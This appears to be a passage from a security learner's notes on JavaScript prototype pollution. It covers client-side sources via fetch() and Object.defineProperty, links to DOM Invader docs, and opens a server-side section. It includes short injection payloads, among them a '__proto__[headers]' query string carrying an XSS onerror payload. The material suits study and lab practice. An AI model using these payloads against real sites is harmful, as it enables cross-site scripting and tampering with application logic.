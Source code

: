 Basically, here are defined `method` and `body` properties, but there are a number of other possible properties that we've left undefined. So, if you find a source, you can pollute `Object.prototype` with your own `headers` property.

```md
?__proto__[headers][x-username]=<img/src/onerror=alert(1)>
```

More info: [https://portswigger.net/web-security/prototype-pollution/client-side/browser-apis#prototype-pollution-via-fetch](https://portswigger.net/web-security/prototype-pollution/client-side/browser-apis#prototype-pollution-via-fetch)

***

**Object.defineProperty()**

```javascript
Object.defineProperty(config, 'transport_url', {configurable: false, writable: false});
```

Same thing. `defineProperty` accept other "descriptor" a.g. `value`.&#x20;

```javascript
/?__proto__[value]=foo
```

[https://portswigger.net/web-security/prototype-pollution/client-side/browser-apis#prototype-pollution-via-object-defineproperty](https://portswigger.net/web-security/prototype-pollution/client-side/browser-apis#prototype-pollution-via-object-defineproperty)

---

## Client-side prototype pollution (with DOM Invader)

**Finding sources**

[https://portswigger.net/burp/documentation/desktop/tools/dom-invader/prototype-pollution](https://portswigger.net/burp/documentation/desktop/tools/dom-invader/prototype-pollution)

**Finding gadgets**

[https://portswigger.net/burp/documentation/desktop/tools/dom-invader/prototype-pollution#scanning-for-prototype-pollution-gadgets](https://portswigger.net/burp/documentation/desktop/tools/dom-invader/prototype-pollution#scanning-for-prototype-pollution-gadgets)

---

## Server-side prototype pollution

Javascript in the backend

{{< details summary="Introduction" >}}

An easy trap for developers is overlooking that a JavaScript for...in loop iterates over all of an object's enumerable properties, including inherited ones from the prototype chain.

```javascript
// Example with "object"
const myObject = { a: 1, b: 2 };

// pollute the prototype with an arbitrary property
Object.prototype.foo = 'bar';

// confirm myObject doesn't have its own foo property
myObject.hasOwnProperty('foo'); // false

// list names of properties of myObject
for(const propertyKey in myObject){
    console.log(propertyKey);
}

```